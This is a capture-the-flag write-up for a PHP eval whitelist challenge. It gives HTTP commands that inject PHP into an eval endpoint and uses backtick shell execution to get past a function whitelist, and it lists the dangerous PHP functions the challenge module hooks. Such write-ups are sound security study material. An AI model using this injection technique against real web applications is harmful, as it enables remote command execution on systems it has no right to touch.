 # PHP Eval White-List - Web/Pwn - 104pts

```
PHP Eval White-List
PHP was dangerous, so we've fixed it!
http://c67f8ffd.quals2018.oooverflow.io
Files:

./websec_eval_wl.so
```

## Screenshot

![fig1](./images/fig1.png)

## Solve

Seem to be an open RCE with some retrictions ... As some others challenge from the same CTF, a PHP Zend framwork `.so` were given.

By doing a simple phpinfo() we can see that the restriction follow a first rule:

`No file operation outside of the current directory (this is what the open_basedir call do)`

![fig2](./images/fig2.png)

But after failing different basic tests:

`prevent you from accessing the flag binary up the current folder.`

```sh
$ http --form POST 'http://c67f8ffd.quals2018.oooverflow.io' 'submit=Run!' 'd=echo include("../flag");'
$ http --form POST 'http://c67f8ffd.quals2018.oooverflow.io' 'submit=Run!' 'd=echo file_get_contents("../flag");'
$ http --form POST 'http://c67f8ffd.quals2018.oooverflow.io' 'submit=Run!' 'd=echo include("../flag");'
```

Go it :)
```sh
$ http --form POST 'http://c67f8ffd.quals2018.oooverflow.io' 'submit=Run!' 'd=echo `../flag`;' | grep OOO | tr -d '\n\t'
```
```
OOO{Fortunately_php_has_some_rock_solid_defense_in_depth_mecanisms,_so-everything_is_fine.}
```

There is some strings in the given in the .so that let us think that some retrictions was also made on the function call (or whitelisting).
But what is the point ? we got the flag

```
The function '%s' isn't in the eval whitelist, dropping its call.
/bin/id
system
Found '%s', read to hook.
'%s' is hooked!
Init done!
function_pointer_saving
enabled
websec_eval_wl support
strcmp
/home/vagrant/src/utils.c
shell_exec
proc_open
passthru
popen
pcntl_exec
websec_eval_wl
```
